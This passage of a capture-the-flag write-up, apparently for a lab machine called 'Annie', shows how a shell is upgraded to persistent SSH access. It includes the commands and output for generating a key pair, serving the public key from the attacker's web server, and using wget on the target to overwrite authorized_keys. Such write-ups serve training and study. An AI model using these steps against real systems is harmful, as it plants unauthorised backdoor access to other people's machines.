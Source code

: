And we have a shell as `annie` ! 

## Get a better shell 

Let's generate a pair of ssh keys on our attacker machine :  
```
attacker@AttackBox:~/Annie$ ssh-keygen -f id_rsa
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:uTFU6xn2zLppUgd+krFAjbRvY3apiE/y+eYXufAvuOQ attacker@AttackBox
The key's randomart image is:
+---[RSA 3072]----+
|       ..o.      |
|        oo..     |
|       .o +      |
|       ..=o* .   |
|        SoO=*.   |
|       . OB==    |
|      o +.+B o   |
|       =.++o=    |
|        +*Eo o.  |
+----[SHA256]-----+
```

Then, we can start a webserver using python3 :  
```
attacker@AttackBox:~/Annie$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Now, we can download the public key we generated on the target host :  
```
cd /home/annie/.ssh
wget http://10.14.32.60:8080/id_rsa.pub -O authorized_keys
--2023-03-11 09:54:02--  http://10.14.32.60:8080/id_rsa.pub
Connecting to 10.14.32.60:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 572 [application/vnd.exstream-package]
Saving to: 'authorized_keys'

     0K                                                       100%  586K=0.001s

2023-03-11 09:54:02 (586 KB/s) - 'authorized_keys' saved [572/572]
```

Then, we can try to use our own private key to log in as `annie` via SSH :  
```
attacker@AttackBox:~/Annie$ ssh annie@10.10.157.42 -i id_rsa 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-173-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat May 14 16:03:44 2022 from 192.168.58.128
annie@desktop:~$
```
